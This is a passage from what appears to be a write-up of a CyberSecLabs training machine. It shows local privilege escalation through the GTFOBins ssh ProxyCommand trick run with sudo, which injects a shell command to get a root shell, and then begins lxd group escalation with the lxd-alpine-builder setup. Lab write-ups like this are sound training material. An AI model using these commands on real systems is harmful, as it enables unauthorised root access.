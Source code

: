when we as `amy` find privilege escalation using `sudo -l`

![a1ef19e9317f7fd88a1368aaec02146b.png](/assets/images/cyberseclabs-shares/572d44cd2ca849708ae32006bcb9e6ca.png)

ssh reference from [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

![4d934a503be1dcebdfc55ed4717e4f0f.png](/assets/images/cyberseclabs-shares/d068433c6bf740a68a3bf422980e3ff3.png)

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

![4e0d82861abe3cf071116bdda369e6ff.png](/assets/images/cyberseclabs-shares/06482424eab74157be96c572030b94fe.png)

## privilege escalation via lxd

back into amir, and look `id` from amir's, we found `lxd`

![b9e139e2459bf30c05b323214eb46e96.png](/assets/images/cyberseclabs-shares/9fc729109559422ab8d66efdf79fd4d8.png)

we can read and learn about 'lxd' privilege escalation 
- https://www.hackingarticles.in/lxd-privilege-escalation/
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine 
```